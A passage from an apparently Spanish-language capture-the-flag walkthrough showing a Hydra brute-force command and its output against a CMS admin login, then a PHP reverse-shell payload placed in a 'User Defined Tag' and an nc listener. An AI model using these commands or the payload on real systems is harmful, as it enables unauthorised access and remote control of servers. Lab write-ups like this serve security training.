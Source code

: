 Veremos una seccion bastante interesante llamada `/admin`, en el que si entramos veremos un `login`, pero si probamos credenciales por defecto como por ejemplo `admin:admin` no nos dejara, por lo que vamos a probar `fuerza bruta` con el `login` utilizando el usuario `admin` a ver si hay suerte.

## Escalate user paul

### Hydra

```shell
hydra -l admin -P <WORDLIST> <IP> http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-21 10:06:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.5.55:80/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect
[80][http-post-form] host: 192.168.5.55   login: admin   password: bullshit
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-21 10:07:15
```

Veremos que ha sacado de forma correcta las credenciales del `admin` por lo que nos loguearemos de la siguiente forma:

```
Username: admin
Password: bullshit
```

Una vez dentro si exploramos un poco el panel veremos la seccion `Tags` en la cual aparecen varias opciones, pero entre ellas hay un icono de una terminal llamado `User Defined Tags` por lo que se ve bastante interesante, si entramos dentro vamos a probar a darle al boton llamado `Add User Defined Tag`.

En el campo `Name` pondremos por ejemplo `Shell` y en el campo `Code:` pondremos lo siguiente:

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora le daremos a `Submit` y nos pondremos a la escucha de la siguiente forma.

```shell
nc -lvnp <PORT>
```
